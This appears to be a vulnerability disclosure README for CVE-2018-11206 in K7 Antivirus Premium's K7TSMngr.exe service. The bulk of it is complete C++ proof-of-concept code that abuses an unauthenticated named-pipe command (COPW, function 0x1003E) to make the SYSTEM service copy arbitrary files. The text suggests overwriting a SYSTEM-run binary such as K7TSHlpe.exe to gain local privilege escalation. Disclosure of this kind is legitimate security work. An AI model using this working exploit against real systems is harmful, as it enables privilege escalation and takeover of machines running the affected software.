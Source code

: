 # CVE-2018-11206

# Product / Component Affected

* **Product**: *K7 Antivirus Premium 16.0.0.0* 
* **Component**: *K7TSMngr.exe 16.0.0.70*
  * SHA256: E6655EBC79644E7DB6FC36B2D98DE88A9635F47B3ADF1D834FD357D5EA3E15A6

# K7TSMngr.exe Pipe Handler Background
*See description in [CVE-2018-8724](../CVE-2018-8724/readme.md)*

# Details
Using the named pipe \\\\.\\pipe\\K7TSMngrService1 and the function code 0x1003E, you can use the K7TSMngr service (running at SYSTEM) to copy files to/from anywhere on the system using the COPW command. This is accessible from a LOW privileged account. This allows you to bypass filing system security. The PoC will perform the copy, and to achieve a LPE you simply overwrite a binary that is run as SYSTEM. E.g. K7TSHlpe.exe which is periodically launched by the K7TSMngr service. In this handler, there is other filing system functionality which should be locked down.

The specific handler function is sub_40CC40.


# PoC Code
```C++
#include <Windows.h>
#include <stdio.h>

/////////////////////////////////////
// Common code to talk to the Pipe //
/////////////////////////////////////
typedef struct _unk1
{
	DWORD dwMagic;
	DWORD dwSomeMagic;
	DWORD dwInSize;
	DWORD field_c;
	DWORD dwFunctionId;
	DWORD dwInputDataSize;
	DWORD dwOutputDataSize;
} unk1;

// Global pipe handle
HANDLE g_hPipe = INVALID_HANDLE_VALUE;

/*
Description:
    Opens the comms pannel to the pipe

Parameters:
    N/A
    
Returns:
    TRUE on success, otherwise false.
*/
BOOL InitPipe()
{
	g_hPipe = CreateFileA("\\\\.\\pipe\\K7TSMngrService1", GENERIC_READ | GENERIC_WRITE, FILE_SHARE_READ | FILE_SHARE_WRITE, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
	if (g_hPipe == INVALID_HANDLE_VALUE)
	{
		printf("CreateFileW Failed: 0x%08x\r\n", GetLastError());
		return FALSE;
	}

	return TRUE;
}

/*
Description:
    Calls the pipe function for the second time with the function code after it has been initialized.

Parameters:
    dwFunctionId    Id/Code to call
    pInput          Input buffer
    dwInSize        Input buffer size, in bytes
    pOutput         Output bfufer
    dwOutSize       Output bfufer size, in bytes

Returns:
    TRUE on success, otherwise false.
*/
BOOL CallPipeFunction(DWORD dwFunctionId, PBYTE pInput, DWORD dwInSize, PBYTE pOutput, DWORD dwOutSize)
{
	if (g_hPipe == INVALID_HANDLE_VALUE)
	{
		if (!InitPipe())
		{
			return FALSE;
		}
	}

	unk1 u1 = { 0 };
	u1.dwMagic = 0x4B375453;
	u1.dwSomeMagic = 0x1010;
	u1.dwInSize = 28;
	u1.dwFunctionId = dwFunctionId;
	u1.dwInputDataSize = dwInSize;

	DWORD dwBytesWritten = 0;
	if (!WriteFile(g_hPipe, &u1, sizeof(u1), &dwBytesWritten, NULL))
	{
		printf("WriteFile 1 Failed: 0x%08x\r\n", GetLastError());
		return FALSE;
	}

	if (!WriteFile(g_hPipe, pInput, dwInSize, &dwBytesWritten, NULL))
	{
		printf("WriteFile 2 Failed: 0x%08x\r\n", GetLastError());
		return FALSE;
	}

	return TRUE;
}

/*
Description:
    Allocate memory on a page boundary.

Parameters:
    dwSize:     Size, in bytes, to allocate

Returns:
    Allcoated buffer, or NULL.
*/
PVOID AllocPrecise(DWORD dwSize)
{
	DWORD dwPageSize = ((dwSize + 4096 - 1) / 4096) * 4096;
	PBYTE pOffset = (PBYTE)VirtualAlloc(NULL, dwPageSize, MEM_COMMIT, PAGE_READWRITE);

	if (dwSize % 0x1000 == 0)
	{
		return pOffset;
	}
	pOffset += 4096 - (dwSize % 4096);
	return pOffset;
}
/////////////////////////////
// End of common pipe code //
/////////////////////////////

/*
Description:
    Gets the K7TSMngr service to call Kernel32!CopyFileW with whatever we pass through to it.

Parameters:
    pszSource   Source file to pass through to CopyFileW
    pszDest     Destination location to pass through

Returns:
    N/A
*/
VOID Vuln_LogicFlaw_CopyFile(PWSTR pszSource, PWSTR pszDest)
{
/*
Vulnerability
    Type: 
        Logical Flaw, not authenticated access to priveleged function

    Description: 
        Can copy files to anywhere as it is done by a SYSTEM level process.
        Very easy to get a LPE from here, or anything else
*/

	PVOID pData = AllocPrecise(0x8000);
	// 434f5057		COPW
	DWORD dwAction = 0x434f5057;
	memcpy(pData, &dwAction, 4);
	PWSTR pszData = (PWSTR)(((PBYTE)pData) + 4);

	wcscat(pszData, pszSource);
	pszData += wcslen(pszSource) + 1;

	wcscat(pszData, pszDest);
	pszData += wcslen(pszDest) + 1;

	PDWORD pdwData = (PDWORD)pszData;
	*pdwData = 1;

	DWORD dwSize = 4 + ((wcslen(pszSource) + wcslen(pszDest) + 2) * 2) + 4;

	CallPipeFunction(0x1003E, (PBYTE)pData, dwSize, NULL, 0);
}

int wmain(int argc, wchar_t** argv)
{
	if (argc != 3)
	{
		printf("Usage: <Source> <Dest>\r\n");
		return -1;
	}

	Vuln_LogicFlaw_CopyFile(argv[1], argv[2]);
}

```